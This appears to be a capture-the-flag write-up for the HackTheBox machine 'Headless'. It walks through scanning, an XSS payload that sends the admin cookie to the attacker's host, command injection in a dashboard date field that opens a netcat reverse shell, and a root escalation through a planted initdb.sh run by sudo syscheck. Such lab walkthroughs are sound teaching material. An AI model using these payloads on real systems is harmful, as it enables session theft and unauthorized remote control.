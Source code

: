 ```yaml
---
heroImage: /src/assets/images/headless/Headless.png
category: CTF
description: "'Hackthebox Season Machine: Headless'"
pubDate: 2024-03-24T23:00:00.000Z
tags:
  - HTB
title: Headless
---
```


Machine IP: 10.10.11.8

## Scanning

### Nmap

```markdown
sudo nmap - sC - sV - oA head_scan 10.10.11.8
```

![](../../assets/images/headless/nmap.png)We have two ports; 22 and 5000. Port 22 is typically not an entry port for RCE. Technically we can enumerate port 22 when we have some credentials. So looking at port 5000

#### Port 5000

![](../../assets/images/headless/port_5000.png)

If we click on the 'for questions' button, we get the /support directory

![](../../assets/images/headless/support.png)

Test if special characters (", ', \<, >) are supported then we also test with SQLi and XSS payloads. It works with xss payload: \</scrip\</script>t>\<img src =q onerror=prompt(8)>

Also notice that we get the admin cookie in the cookie header of the response. InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs

![](../../assets/images/headless/xss.png)

#### Directory Enumeration

```
dirsearch -u http://10.10.11.8:5000
```

![](../../assets/images/headless/dir.png)
We have an extra directory /dashboard.

Going to the dashboard page, we see that we are unauthorized to access it
![](../../assets/images/headless/dashboard.png 'dashboard')

What do we have??

- A website running on port 5000
- XSS on from the /support page with admin cookie exposed in the response
- dashboard directory we dont have access to
- Now, Get RCE via XSS using cookie

Using the concept from:[https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e)

Let's capture our request on burpsuite for easy of replay and repeat. and set up listener (two)

```markdown
python3 - m http.server 80
sudo php - S 0.0.0.0: 8000
```

I tried different payloads, until this worked:

```
<script>var i=new Image(); i.src="http://10.10.16.63/?cookie="+btoa(document.cookie);</script>
```

Here we have used btoa() method for converting the cookie string into base64 encoded string
![](../../assets/images/headless/burp1.png)
![](../../assets/images/headless/res.png)
![](../../assets/images/headless/res2.png)

Decode cookie:

```
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
```

![](../../assets/images/headless/cookie1.png)

Now that we have our admin cookie, we can insert it into the cookie storage with the browser and now we have access to the /dashboard page

![](../../assets/images/headless/cookies.png)

Pass the request of the /dashboard page to burp

![](../../assets/images/headless/burp.png)We can insert a payload within the date label to get shell.Using pyaload

```
nc+-e+/bin/sh+10.10.16.63+1234
```

![](../../assets/images/headless/payload.png)

We get our low priv shell

![](../../assets/images/headless/shell.png)

### Privilege Escalation

First thing I typically check is `sudo -l\`, and we have a hit this time.

![](../../assets/images/headless/sduo.png)

We can use the syscheck command without having sudo privileges

```markdown
Syscheck is the name of the integrity checking process inside OSSEC.It runs periodically to check if any configured file has changed.
```

Checking the content of /usr/bin/syscheck, we see that it is processing an initdb.sh file. We can add our own inidb.sh file, which will be a payload.
![](../../assets/images/headless/init.png)

```
echo "nc -e /bin/sh 10.10.16.63 4444" > initdb.sh
chmod +x initdb.sh
sudo /usr/bin/syscheck
```

Run the payload
![](../../assets/images/headless/run.png)

And we get our root shell on port 4444

![](../../assets/images/headless/root.png)
